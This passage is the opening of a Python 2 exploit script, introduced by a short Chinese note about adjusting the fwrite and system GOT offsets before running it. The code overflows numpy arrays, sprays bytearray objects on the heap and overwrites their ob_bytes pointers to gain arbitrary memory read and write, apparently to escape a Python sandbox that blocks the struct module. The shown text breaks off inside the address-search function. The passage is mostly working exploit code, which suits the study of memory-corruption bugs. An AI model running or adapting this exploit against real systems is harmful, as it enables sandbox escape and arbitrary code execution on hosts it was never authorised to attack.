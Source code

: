 有一些比高级别的解释更多，所以请查看下面的漏洞。 我建议从自下而上开始阅读，包括评论。 如果您使用的是不同版本的Python，请在运行该文件之前调整fwrite和system的GOT位置。



```
import numpy as np
# addr_to_str is a quick and dirty replacement for struct.pack(), needed
# for sandbox environments that block the struct module.
def addr_to_str(addr):
    addr_str = "%016x" % (addr)
    ret = str()
    for i in range(16, 0, -2):
        ret = ret + addr_str[i-2:i].decode('hex')
    return ret
# read_address and write_address use overflown numpy arrays to search for
# bytearray objects we've sprayed on the heap, represented as a PyByteArray
# structure:
# 
# struct PyByteArray {
#     Py_ssize_t ob_refcnt;
#     struct _typeobject *ob_type;
#     Py_ssize_t ob_size;
#     int ob_exports;
#     Py_ssize_t ob_alloc;
#     char *ob_bytes;
# };
# 
# Once located, the pointer to actual data `ob_bytes` is overwritten with the
# address that we want to read or write. We then cycle through the list of byte
# arrays until we find the  one that has been corrupted. This bytearray is used
# to read or write the desired location. Finally, we clean up by setting
# `ob_bytes` back to its original value.
def find_address(addr, data=None):
    i = 0
    j = -1
    k = 0
    if data:
        size = 0x102
    else:
        size = 0x103
    for k, arr in enumerate(arrays):
        i = 0
        for i in range(0x2000): # 0x2000 is a value that happens to work
            # Here we search for the signature of a PyByteArray structure
            j = arr[0][i].find(addr_to_str(0x1))                  # ob_refcnt
            if (j &lt; 0 or
                arr[0][i][j+0x10:j+0x18] != addr_to_str(size) or  # ob_size
                arr[0][i][j+0x20:j+0x28] != addr_to_str(size+1)): # ob_alloc
                continue
            idx_bytes = j+0x28                                    # ob_bytes
            # Save an unclobbered copy of the bytearray metadata
            saved_metadata = arrays[k][0][i]
            # Overwrite the ob_bytes pointer with the provded address
            addr_string = addr_to_str(addr)
            new_metadata = (saved_metadata[0:idx_bytes] +
                     addr_string +
                     saved_metadata[idx_bytes+8:])
            arrays[k][0][i] = new_metadata
            ret = None
            for bytearray_ in bytearrays:
                try:
                    # We differentiate the signature by size for each
                    # find_address invocation because we don't want to
                    # accidentally clobber the wrong  bytearray structure.
                    # We know we've hit the structure we're looking for if
```